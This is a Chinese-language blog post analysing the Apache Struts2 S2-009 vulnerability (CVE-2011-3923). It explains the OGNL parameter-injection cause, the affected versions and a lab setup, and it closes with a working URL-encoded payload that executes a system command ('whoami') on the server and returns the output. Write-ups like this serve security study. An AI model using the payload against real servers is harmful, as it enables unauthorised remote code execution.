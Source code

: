 ```yaml
---
layout: post
title: "S2-009"
subtitle: 'S2-009漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第六篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-009漏洞,又名CVE-2011-3923漏洞.

> Struts2框架中ParametersInterceptor拦截器只检查传入的参数名是否合法,不会检查参数值.例如传入参数top\['foo'](0)会通过ParametersInterceptor的白名单检查,OGNL会将其解析为(top['foo'])(0),并将foo的值也作为OGNL表达式进行计算从而造成代码执行.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-009)

#### 漏洞成因

> Struts2框架中ParametersInterceptor拦截器只检查传入的参数名是否合法,不会检查参数值.例如传入参数top\['foo'](0)会通过ParametersInterceptor的白名单检查,OGNL会将其解析为(top['foo'])(0),并将foo的值也作为OGNL表达式进行计算从而造成代码执行.其实这个漏洞是对S2-003和S2-005漏洞的绕过.S2-003的修复方法是禁止#号,于是S2-005通过使用#号的unicode编码\u0023或8进制编码\43来绕过,Struts2对S2-005的修复方法是禁止\等特殊符号.这次是通过Struts2框架中ParametersInterceptor拦截器只检查传入的参数名而不检查参数值的方式进行构造OGNL表达式从而造成代码执行

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.1

### 环境搭建

> 解压[地址](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-009)的S2-009.war文件,然后使用IDEA直接打开,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27whoami%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```
